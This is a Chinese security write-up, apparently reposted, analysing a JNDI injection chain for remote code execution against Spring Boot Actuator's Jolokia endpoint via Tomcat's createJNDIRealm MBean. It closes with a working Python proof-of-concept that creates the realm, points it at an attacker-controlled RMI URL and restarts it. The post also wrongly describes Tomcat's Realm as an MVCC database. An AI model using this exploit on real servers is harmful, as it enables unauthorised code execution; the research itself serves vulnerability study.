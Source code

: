 > 原文链接: https://www.anquanke.com//post/id/173265 


# Attack Spring Boot Actuator via jolokia Part 2


                                阅读量   
                                **184644**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t01d7cf7183aff1584e.jpg)](https://p3.ssl.qhimg.com/t01d7cf7183aff1584e.jpg)



本文接[上文](https://www.lucifaer.com/2019/03/11/Attack%20Spring%20Boot%20Actuator%20via%20jolokia%20Part%201/)，这里不会分析原文章中所说的/env这种利用的方法，而是说一下rr大佬的发现的另外一条利用链。

## 0x01 检查MBean

如果说不存在ch.qos.logback.classic reloadByURL这个MBean，还能不能造成RCE呢，这个是我在看完文章后的一个想法。如果说想要解决这个问题，我们需要再看看/jolokia/list中还有哪些利用链可用（真的是太多了T T，由于当时看完记得是在Spring Boot中内嵌的Tomcat中，所以直接看的这个类，然而这个类差点也看跪了T T）。

最终找到org.apache.catalina.mbeans.MBeanFactory这个可能能造成JNDI注入的类，其中有以下这么几个方法从注释的描述中感觉是可以造成JNDI注入的：
- createUserDatabaseRealm
- createDataSourceRealm
- createJNDIRealm
这几点中只有最后的createJNDIRealm是可用的，但是他们前面的处理流程都是一样的，接下来就将他们前面的处理流程简单的分析一下，并说明为什么只有createJNDIRealm是可用的。



## 0x02 Realm创建流程分析

Realm是一个MVCC数据库，而MVCC是用于解决多版本并发问题的一个方法。有关Realm的一些具体介绍可以参考[这篇文章](https://infoq.cn/article/introduce-and-common-problems-of-java-realm-principle)。而我自己的理解是就是它给每一个连接的线程建立了一个“快照”，当两个请求同时到达一个线程时，程序不会造成阻塞，而是会在这个“快照”（也是一个线程）中进行操作，当执行完成后，阻塞合并更改（有点像git）：

[![](https://p5.ssl.qhimg.com/t01bb147413a4fce127.jpg)](https://p5.ssl.qhimg.com/t01bb147413a4fce127.jpg)

然而Realm的原理跟我们主要要说的关系不大，tomcat在创建不同的Realm时其实大致的流程都是相同的，只是最后的具体实现不同而已，比如上一节中说道的三个Realm的创建在代码实现流程上是极为相似的：

[![](https://p2.ssl.qhimg.com/t013ba405529143633c.jpg)](https://p2.ssl.qhimg.com/t013ba405529143633c.jpg)

[![](https://p4.ssl.qhimg.com/t015ac049d888513073.jpg)](https://p4.ssl.qhimg.com/t015ac049d888513073.jpg)

[![](https://p2.ssl.qhimg.com/t0119f5f7defdfe12a9.jpg)](https://p2.ssl.qhimg.com/t0119f5f7defdfe12a9.jpg)

所以我们跟一下红框的部分然后看具体实现就好。

不难看出关键点在于container.setRealm(realm);，跟进看一下：

[![](https://p5.ssl.qhimg.com/t01a1a1a992a68b137b.jpg)](https://p5.ssl.qhimg.com/t01a1a1a992a68b137b.jpg)

如果不存在则创建一个新的realm，这里涉及到Lifecycle的一部分设计与实现，如果想要了解Lifecycle的细节的话，可以参考[这篇文章](https://uule.iteye.com/blog/2340873)。跟进看一下：

[![](https://p3.ssl.qhimg.com/t01b730f363dfc727c3.jpg)](https://p3.ssl.qhimg.com/t01b730f363dfc727c3.jpg)

看一下这个startInternal的具体实现，发现是一个虚类，那么看一下它的继承关系，找一下它的具体实现：

[![](https://p5.ssl.qhimg.com/t01aadee14eee0c3e57.jpg)](https://p5.ssl.qhimg.com/t01aadee14eee0c3e57.jpg)

可以看到我们所找到这三个Realm的具体实现点了。

下面说一下为什么createUserDatabaseRealm和createDataSourceRealm不能用。
1. createUserDatabaseRealm- [![](https://p4.ssl.qhimg.com/t011463ac81ba177aec.jpg)](https://p4.ssl.qhimg.com/t011463ac81ba177aec.jpg)
<li>乍一看resourceName可控，好像可以JNDI注入，然后发现getGlobalNamingContext()返回的是一个null： [![](https://p3.ssl.qhimg.com/t015195ebfc3be346b4.png)](https://p3.ssl.qhimg.com/t015195ebfc3be346b4.png)
</li>
- 所以无法利用。1. createDataSourceRealm- [![](https://p4.ssl.qhimg.com/t013c2d4ed4539cc57f.jpg)](https://p4.ssl.qhimg.com/t013c2d4ed4539cc57f.jpg)
- 好像并不可以利用。


## 0x03 createJNDIRealm的利用分析

那么再来看看createJNDIRealm：

[![](https://p0.ssl.qhimg.com/t017f8251134d3999d6.jpg)](https://p0.ssl.qhimg.com/t017f8251134d3999d6.jpg)

这里有两个重要的点，createDirContext()用env来创建一个InitialDirContext，另一个点是Context.*的配置我们可以控。

[![](https://p3.ssl.qhimg.com/t01e757b76373e66211.jpg)](https://p3.ssl.qhimg.com/t01e757b76373e66211.jpg)

那么具体的JNDI触发点在哪里呢？我们需要着重跟一下createDirContext。

首先createDirContext最后返回一个InitialDirContext对象，而这个对象是根据env来生成的：

[![](https://p2.ssl.qhimg.com/t012f3c354b534947ba.jpg)](https://p2.ssl.qhimg.com/t012f3c354b534947ba.jpg)

跟进，发现这个InitialDirContext实际上是InitialContext的子类，为什么要着重强调这一点呢？因为JDNI的两个必备要素中就一个要求是：上下文对象是通过InitialContext及其子类实例化的，且他们的lookup()方法允许动态协议切换。

[![](https://p3.ssl.qhimg.com/t012ccb038796e32bcd.jpg)](https://p3.ssl.qhimg.com/t012ccb038796e32bcd.jpg)

跟进看一下：

[![](https://p3.ssl.qhimg.com/t011684e3ef232a947e.jpg)](https://p3.ssl.qhimg.com/t011684e3ef232a947e.jpg)

myProps通过传入的初始上下文配置经过处理返回完整的上下文环境，可以把它看成env的“完整版”。接着向下跟进：

[![](https://p0.ssl.qhimg.com/t0110d6936f843442e3.jpg)](https://p0.ssl.qhimg.com/t0110d6936f843442e3.jpg)

[![](https://p5.ssl.qhimg.com/t01924f110e976e14c5.jpg)](https://p5.ssl.qhimg.com/t01924f110e976e14c5.jpg)

注意红框部分，我们可以通过设置env中的INITIAL_CONTEXT_FACTORY来控制这里的factory，可以看一下有哪些是我们可以指定的：

[![](https://p5.ssl.qhimg.com/t01ae3604ede3d5414f.jpg)](https://p5.ssl.qhimg.com/t01ae3604ede3d5414f.jpg)

可以看到我们可以指定com.sun.jndi.rmi.registry，来进行rmi的操作，来看一下具体实现：

[![](https://p5.ssl.qhimg.com/t01c6caa03dae3d210a.jpg)](https://p5.ssl.qhimg.com/t01c6caa03dae3d210a.jpg)

这里的var1还是我们的env，也就是说这里的第一个参数是可控的：

[![](https://p3.ssl.qhimg.com/t019712519bc9220099.jpg)](https://p3.ssl.qhimg.com/t019712519bc9220099.jpg)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e0b0a9e4a8ecda97.jpg)

[![](https://p1.ssl.qhimg.com/t0127fdabd051667d85.jpg)](https://p1.ssl.qhimg.com/t0127fdabd051667d85.jpg)

var0、var1可控，还调用了lookup()，在这里完成了JDNI的注入。



## 0x04 构造poc

梳理一下思路，我们需要做这么几部来完成攻击：
1. 创建JNDIRealm
1. 通过getDirectoryContextEnvironment()来设置contextFactory为RegistryContextFactory，并将connectionURL设置为自己的N/D服务器
1. 重启Realm来完成更改并执行（stop、start）
也就是说需要发4次请求。

在利用过程中get请求的构造比较麻烦这里用post请求来构造poc，关于post如何解析的可以参考get请求解析的分析流程，这里就不过多描述了。

```
poc：

import requests as req
import sys
from pprint import pprint

url = sys.argv[1] + "/jolokia/"
pprint(url)

create_JNDIrealm = `{`
    "mbean": "Tomcat:type=MBeanFactory",
    "type": "EXEC",
    "operation": "createJNDIRealm",
    "arguments": ["Tomcat:type=Engine"]
`}`

set_contextFactory = `{`
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "WRITE",
    "attribute": "contextFactory",
    "value": "com.sun.jndi.rmi.registry.RegistryContextFactory"
`}`

set_connectionURL = `{`
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "WRITE",
    "attribute": "connectionURL",
    "value": "rmi://localhost:1097/Exploit"
`}`

stop_JNDIrealm = `{`
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "EXEC",
    "operation": "stop",
    "arguments": []
`}`

start = `{`
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "EXEC",
    "operation": "start",
    "arguments": []
`}`

expoloit = [create_JNDIrealm, set_contextFactory, set_connectionURL, stop_JNDIrealm, start]

for i in expoloit:
    rep = req.post(url, json=i)
    pprint(rep.json())
```



效果：

[![](https://p1.ssl.qhimg.com/t01e103b6f2c22cdce0.jpg)](https://p1.ssl.qhimg.com/t01e103b6f2c22cdce0.jpg)



## 0x05 Reference
- https://infoq.cn/article/introduce-and-common-problems-of-java-realm-principle
- https://uule.iteye.com/blog/2340873
- https://ricterz.me/posts/2019-03-06-yet-another-way-to-exploit-spring-boot-actuators-via-jolokia.txt